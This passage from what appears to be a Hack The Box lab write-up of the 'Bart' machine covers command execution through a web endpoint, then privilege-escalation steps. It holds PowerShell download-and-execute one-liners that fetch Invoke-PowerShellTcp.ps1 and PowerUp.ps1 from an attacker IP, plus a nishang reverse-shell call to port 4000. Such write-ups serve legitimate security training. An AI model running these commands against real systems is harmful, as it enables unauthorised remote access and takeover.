 Executing the ```whoami``` command at http://internal-01.bart.htb/log/cmd.php?cmd=whoami then returns an output

![whoami](https://github.com/joelczk/writeups/blob/main/HTB/Images/Bart/whoami.png)

Next, we will have to modify the Invoke-PowershellTcp.ps1 script from nishang and add the following lines to the bottom of the script

```
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.16.6 -Port 4000 
```

Navigating to http://internal-01.bart.htb/log/cmd.php?cmd=powershell.exe%20-c%20%22iex%20((New-Object%20System.Net.WebClient).DownloadString(%27http://10.10.16.6:3000/Invoke-PowerShellTcp.ps1%27))%22 will then spawn the reverse shell connection

### Privilege Escalation to SYSTEM
Looking at the privilges that we have in C:\Users, we will probably need to escalate our privileges to SYSTEM privileges to be able to read the user flag and the root flag.

Currently, we do not have the required privileges to read any of the files in C:\Users directory and so we are unable to obtain the user flag.
```
PS C:\Users> dir


    Directory: C:\Users


Mode                LastWriteTime         Length Name                          
----                -------------         ------ ----                          
d-----       04/02/2018     21:58                Administrator                 
d-----       02/10/2017     13:08                DefaultAppPool                
d-----       04/10/2017     08:40                forum.bart.local              
d-----       17/01/2022     16:40                h.potter                      
d-----       24/09/2017     21:55                Harvey Potter                 
d-----       04/02/2018     21:56                internal.bart.local           
d-----       04/10/2017     08:42                monitor.bart.local            
d-----       06/02/2018     10:15                privileged                    
d-r---       21/02/2018     21:45                Public                        
d-----       02/10/2017     13:08                test  
```

### Escalation to SYSTEM privileges
When attempting to execute PowerUp.ps1 script on this machine, we realize that the script execution policy is being disabled on this machine and we are unable to import the module for the PowerUp.ps1 script. To counter that, we will use the ```-nop``` argument for powershell.exe when we transfer files.

```
powershell.exe -nop -c "iex(New-Object Net.WebClient).DownloadString('http://10.10.16.6:3000/PowerUp.ps1');Invoke-AllChecks"
```
